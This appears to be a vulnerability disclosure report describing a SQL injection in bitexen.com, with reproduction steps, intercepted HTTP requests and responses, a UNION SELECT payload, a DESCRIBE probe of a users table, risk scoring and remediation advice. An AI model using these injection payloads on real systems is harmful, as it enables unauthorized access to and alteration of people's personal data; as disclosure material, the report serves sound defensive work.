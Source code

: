 # SQL Injection - bitexen.com

## Researcher Information

Hello, I am Zeynep. You can access me at zeynep@example.com. My HackerOne account is "zeynep".

## Issue Description and Summary

I malformed the requests of the web page with Burp to successfully run SQL queries. I checked the table schemas in the database but did not access any data thinking there could be sensitive information there. There was column names like account e-mail and phone number.

## Affected URLs / Applications

- Domain bitexen.com

## Risk Breakdown

- Risk: Critical
- Risk: Disclosure of sensitive user information (national identity, physical address, phone number)
- CVSS v3 score: 9.8 CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Steps to Reproduce / PoC

- Login to your Bitexen account, change account details, press "Save"
- Intercept the request with Burp or other proxy tools
- Change the POST data of the request from `username=example` to `username=example' UNION SELECT sum(columnname ) from tablename --`
- Send the request and watch the response

- Original request

        POST https://bitexen.com/application/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data

- Original response

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        OK

- Malformed request

        POST https://bitexen.com/application/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data' UNION SELECT sum(columnname ) from tablename --

- Response for malformed request

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        5

- This time, the same request is sent by entering `DESCRIBE bitexen_db.users`. It can be seen that the database and the tables can be accessed.

        +-------+--------------+------+-----+---------+-------+
        | Field | Type         | Null | Key | Default | Extra |
        +-------+--------------+------+-----+---------+-------+
        | id    | int(11)      | YES  | MUL | NULL    |       |
        | Name  | varchar(100) | YES  | MUL | NULL    |       |
        +-------+--------------+------+-----+---------+-------+
        2 rows in set (0.05 sec)

Screeshots:

- Screenshot 1
- Screenshot 2

## Impact

An attacker can access sensitive user information. It is not possible to hijack user accounts due to no passwords seem to be in the database but the information which can be accessed is critical. The data can also be edited or deleted by the attacker.

## Remediation Suggestions / Supporting Material / Referances

Instead of creating SQL queries from the user input, parameterized API can be used. If this option is not feasible, the user input must be sanitized before creating SQL queries. Also, the permissions of the SQL service and account should be limited.

Resources:

- <https://www.w3schools.com/sql/sql_injection.asp>
- <https://portswigger.net/web-security/sql-injection>
- <https://owasp.org/www-community/attacks/SQL_Injection>
- <https://www.acunetix.com/websitesecurity/sql-injection/>
